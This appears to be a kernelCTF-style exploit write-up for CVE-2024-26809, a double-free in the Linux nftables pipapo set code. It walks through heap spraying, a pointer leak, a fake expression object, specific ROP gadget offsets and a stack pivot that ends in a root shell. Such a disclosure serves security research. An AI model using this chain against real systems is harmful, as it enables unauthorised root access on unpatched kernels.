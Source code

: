 # Exploit detail about CVE-2024-26809
If you want to get some base information about CVE-2024-1085, please read [vulnerability.md](./vulnerability.md) first.

## Background
nftables is a netfilter project that aims to replace the existing {ip,ip6,arp,eb}tables framework, providing a new packet filtering framework for {ip,ip6}tables, a new userspace utility (nft) and A compatibility layer. It uses existing hooks, link tracking system, user space queuing component and netfilter logging subsystem.

It consists of three main components: kernel implementation, libnl netlink communication and nftables user space front-end. The kernel provides a netlink configuration interface and runtime rule set evaluation. libnl contains basic functions for communicating with the kernel. The nftables front end is for user interaction through nft.

nftables implements data packet filtering by using some components like `table`, `set`, `chain`, `rule`.


## Cause anaylysis

In the `function nft_pipapo_destroy`, when the set is dirty, it destroys all the set elements in match and clone:
```c
static void nft_pipapo_destroy(const struct nft_ctx *ctx,
			       const struct nft_set *set)
{
	struct nft_pipapo *priv = nft_set_priv(set);
	struct nft_pipapo_match *m;
	int cpu;

	m = rcu_dereference_protected(priv->match, true);
	if (m) {
		...
		nft_set_pipapo_match_destroy(ctx, set, m);
		...
	}

	if (priv->clone) {
		m = priv->clone;

		if (priv->dirty)
			nft_set_pipapo_match_destroy(ctx, set, m);
	...
```

 But an element may be in match and clone at the same time. Therefore, calling nft_pipapo_destroy when a set is dirty may cause double-free problems.

## Triggering the vulnerability

It's easy to trigger it by following this steps:

- Create a pipapo set A.
- Create an element B in A.
- Create an element C in A.(Make set A dirty.) 
- Delete set A. (Here will destroy the element B twice because of CVE-2024-26809.)

By the way, we need to send the command of step 3 and step 4 together.

## Exploit it

The steps for exploiting CVE-2024-26809 and [CVE-2024-1085](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2024-1085_lts/docs/exploit.md) are basically similar.

### Target object caches
Because the `setelem` object size we plan to use is between 0xc0-0x100, our target object cache is `kmalloc-256`

### Exploit detail
I exploit CVE-2024-26809 by following steps:

- 1. Create a pipapo set `A`.
- 2. Create element `B` and element `C` in set `A`.(Two elements are created here because if only one element is created to trigger the vulnerability, the same heap will be released twice in succession, which will cause the kernel to crash in subsequent exploits.)
- 3. Trigger the vulnerability by following messages:
   
   ```c
    memset(key,0x43,0x40);
    msg_list[0] = new_setelem_msg(table, pipapo_set, pad, 0x80, target_obj, key, 0x40, NULL, 0);//Create element D in set A, which will make set A dirty
    msg_list[1] = del_set_msg(table, pipapo_set);//Trigger nft_pipapo_destroy 
    send_msg_list(socket, msg_list, 2);
   ```
   	After this we kfree the set element `B` and `C` twice like this:
	```c
	kfree(element B);
	kfree(element C);
	kfree(element B);
	kfree(element C);
	kfree(element D);
	```
- 4. Try to alloc the heap of the set element `C` back by creating `nft_table` with `NFTA_TABLE_USERDATA`. Keep allocing heap, and each time you alloc a heap, check whether the heap has been alloced for(confirmed by whether the memory of the already created heap has been modified). After this step, We will find two `nft_table` with the same `udata`. We assume that the two `nft_tables` are `nft_table E` and `nft_table F`.
- 5. Delete `nft_table E`.
- 6. Spray heap to get the heap of `nft_table E->udata`
back. I spray heap by creating set element with `NFTA_SET_ELEM_EXPR` because I want to leak the `ops` pointer of the `nft_expr`.
- 7. Dump `nft_table F`. Now we leak `nft_last_ops`.
- 8. Create another set element `G`. Then dump the `nft_table F` again. We can get the pointer of the set element `G` because each bitmap set element has a doubly linked list.
  ```c
  struct nft_bitmap_elem {
	struct list_head	head;
	struct nft_set_ext	ext;
	};
  ```
- 9. Delete set element `G`. Fill the heap memory of set element `G` through heap spraying.
  ```c
    //ops->dump
    *(uint64_t *)&pad[0x40] = kernel_off + 0xffffffff810b9f43;//leave ; ret
    //ops->type
    *(uint64_t *)&pad[0x78] = kernel_off + 0xFFFFFFFF83967420;//last type
    spray_tables(socket,0x200, pad, 0x80);
  ```
- 10. Delete `nft_table F`.
- 11. Fill the heap memory of `nft_table F ->udata` with fake `nft_expr` and ROP gadget.
- 12. Dump the set elements we create in step 5. Finally we will jmp to our ROP gadget.
    ```c
	static int nf_tables_fill_expr_info(struct sk_buff *skb,
						const struct nft_expr *expr)
	{
		if (nla_put_string(skb, NFTA_EXPR_NAME, expr->ops->type->name))
			goto nla_put_failure;

		if (expr->ops->dump) {
			struct nlattr *data = nla_nest_start_noflag(skb,
									NFTA_EXPR_DATA);
			if (data == NULL)
				goto nla_put_failure;
			if (expr->ops->dump(skb, expr) < 0) //we hijack RIP here
				goto nla_put_failure;
			nla_nest_end(skb, data);
		}
	...

  ```

### ROP detail

The assembly code when calling expr->ops->dump is as follows:

```
	mov     rax, [rbp+0]
	mov     rsi, rbp
	mov     rdi, rbx
	mov     rax, [rax+40h]
	call    __x86_indirect_thunk_rax
```
So the `rbp` is the pointer of the current `nft_expr`. We fill it by following:
```c
	...
	//build fake setelem
    *(uint64_t *)&setelem_data[0x28] = ops_addr; //expr[0]->ops
    //start ROP
    *(uint64_t *)&setelem_data[0x30] = kernel_off + 0xffffffff8112af10;//pop rdi; ret  expr[0]->data
	...
```

The first step of ROP start looks like this(We fill the ops pointer in step 8):
```
expr->ops->dump(skb, expr)  --> leave ; ret 
```
This will finally makes this happen:

```
rsp = element + 0x28 // mov rsp, rbp  
rbp = *(element + 0x28) //pop rbp  rbp=*(&setelem_data[0x28])
rsp = element + 0x30 
rip = *(element + 0x30) //ret   rip=*(&setelem_data[0x30])
rsp = element + 0x38 
```
After completing the stack migration, we can run ROPgadget and finally get the root shell.
